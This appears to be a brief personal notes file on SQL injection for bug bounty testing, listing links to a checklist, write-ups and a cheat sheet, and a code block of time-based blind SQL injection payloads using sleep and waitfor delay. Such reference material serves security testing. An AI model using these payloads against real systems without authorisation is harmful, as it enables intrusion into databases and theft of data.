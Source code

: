 ## 1. SQL checklist

https://www.notion.so/SQL-INJECTION-e89cf8a972d24a239821b4449f34f4e0


## 2. 
https://sapt.medium.com/sqli-on-a-bugcrowd-private-program-17858b57ec61


```
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```

## SQL Injection with FFUF and Sqlmap
https://0xmahmoudjo0.medium.com/how-i-found-multiple-sql-injection-with-ffuf-and-sqlmap-in-a-few-minutes-9c3bb3780e8f

## Advanced sql injection cheat sheet
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet





